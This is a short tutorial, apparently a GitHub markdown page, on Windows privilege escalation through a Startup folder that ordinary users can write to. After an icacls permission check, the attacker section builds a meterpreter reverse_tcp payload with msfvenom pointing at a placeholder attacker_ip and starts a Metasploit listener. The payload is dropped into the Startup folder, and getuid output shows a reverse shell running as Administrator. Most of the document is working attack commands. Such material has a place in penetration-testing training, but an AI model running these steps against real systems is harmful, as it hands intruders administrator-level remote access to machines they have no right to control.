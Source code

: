 # Startup Applications 

A startup application is a program that is automatically launched by Windows when the system boots or when a user logs in

**Victim**

```
// to get the informations about the startup apps, type in cmd 
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

// From the output notice that the “BUILTIN\Users” group has full access ‘(F)’ to the directory 
```

**Attacker**

```
// generating a payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip -f exe -o x.exe

// now open metasploit framework 
msfconsole 
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost attacker_ip
run
```

Now using the python server transfer x.exe to the windows machine and save the file in "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

Now log out the low privileged user account in the windows machine and when we login as high privileged account into the windows machine, we gain the reverse shell due to the malicious startup software 

```
// we gained reverse shell for high privileged account 
getuid 
server username: Administrator 
```
